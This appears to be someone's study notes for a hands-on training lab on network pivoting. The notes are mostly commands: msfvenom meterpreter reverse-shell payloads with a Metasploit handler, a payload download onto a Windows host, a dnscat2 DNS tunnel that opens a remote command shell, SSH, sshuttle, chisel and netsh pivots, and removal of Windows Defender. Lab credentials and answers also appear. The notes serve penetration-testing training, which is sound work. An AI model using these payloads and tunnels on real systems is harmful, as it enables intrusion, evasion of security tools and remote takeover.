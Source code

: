 # Pivoting, Tunneling, and Port Forwarding

# Dynamic Port Forwarding with SSH and SOCKS Tunneling

You have successfully captured credentials to an external facing Web Server. Connect to the target and list the network interfaces. How many network interfaces does the target web server have? (Including the loopback interface)

```bash

ifconfig

```

Apply the concepts taught in this section to pivot to the internal network and use RDP (credentials: victor:pass@123) to take control of the Windows target on 172.16.5.19. Submit the contents of Flag.txt located on the Desktop. 

```bash

netstat -antp 

ssh -D 9050 ubuntu@10.129.194.203

proxychains nmap -v -Pn -sT 172.16.5.19 # 3389

sudo proxychains rdesktop 172.16.5.19 -u victor -p pass@123


```

# Meterpreter Tunneling & Port Forwarding

```bash
msfvenom -p windows/x64/meterpreter/reverse_https lhost=10.10.16.51 -f exe -o backupscript.exe LPORT=8080

 msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.16.51 -f elf -o backupjob LPORT=8080
    # send a file yo victim machine and run the program

 use exploit/multi/handler

 set lhost 0.0.0.0

 set lport 8080

 set payload linux/x64/meterpreter/reverse_tcp

 run

Invoke-WebRequest -Uri "http://172.16.5.15:8000/backupscript.exe" -OutFile "C:\Users\mlefay\Downloads\backupscript.exe"

meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23





```

# Socat Redirection with a Reverse Shell




# SSH Pivoting with Sshuttle

Try using sshuttle from Pwnbox to connect via RDP to the Windows target (172.16.5.19) with "victor:pass@123" on the internal network. Once completed type: "I tried sshuttle" as the answer.

```bash
# Th3$eTunne1$@rent8oring!
# AC@tinth3Tunnel

sudo sshuttle -r ubuntu@10.129.237.20 172.16.5.0/23 -v 

xfreerdp /v:172.16.5.19 /u:victor /p:pass@123


```

# Web Server Pivoting with Rpivot

```bash

sudo git clone https://github.com/klsecservices/rpivot.git

python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0

scp -r rpivot ubuntu@10.129.2.180:/home/ubuntu/

python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

#

```

# Port Forwarding with Windows Netsh


```bash
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.42.198 connectport=3389 connectaddress=172.16.5.19

netsh.exe interface portproxy show v4tov4

xfreerdp /v:10.129.42.198:8080 /u:victor /p:pass@123


```


#  DNS Tunneling with Dnscat2

```bash
git clone https://github.com/iagox86/dnscat2.git

sudo ruby dnscat2.rb --dns host=10.10.16.51,port=53,domain=inlanefreight.local --no-cache

git clone https://github.com/lukebaggett/dnscat2-powershell.git

# set secret of dnscat2.rb output, on this commando 
Import-Module .\dnscat2.ps1

Start-Dnscat2 -DNSserver 10.10.16.51 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 

window -i 1

```


# SOCKS5 Tunneling with Chisel

Using the concepts taught in this section, connect to the target and establish a SOCKS5 Tunnel that can be used to RDP into the domain controller (172.16.5.19, victor:pass@123). Submit the contents of C:\Users\victor\Documents\flag.txt as the answer. 

```bash

git clone https://github.com/jpillora/chisel.git
cd chisel
go build

scp chisel ubuntu@10.129.202.64:~/

# Running the Chisel Server on the Pivot Host
./chisel server -v -p 1234 --socks5

# Connecting to the Chisel Server
./chisel client -v 10.129.202.64:1234 socks

#  located at /etc/proxychains.conf and add 1080 port at the end so we can use proxychains to pivot using the created tunnel between the 1080 port and the SSH tunnel.

proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123

```


# Skill

```bash

# get id_rsa

sudo sshuttle -e 'ssh -i id_rsa' -r webadmin@10.129.171.56 172.16.5.0/23 -v

#another thing
ssh  -L 9443:127.0.0.1:9443  -L 8111:127.0.0.1:8111  -L 9000:127.0.0.1:9000  -L 5000:127.0.0.1:5000 john@10.10.11.13 -i id_rsa
#######

for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
64 bytes from 172.16.5.15: icmp_seq=1 ttl=64 time=0.029 ms
64 bytes from 172.16.5.35: icmp_seq=1 ttl=128 time=2.24 ms


# find file with cred : mlefay:Plain Human work!

uninstall-Windowsfeature -Name Windows-Defender

# remote desktop
#172.16.6.25
#vfrank:Imply wet Unmasked!
#INLANEFREIGHT\vfrank

```
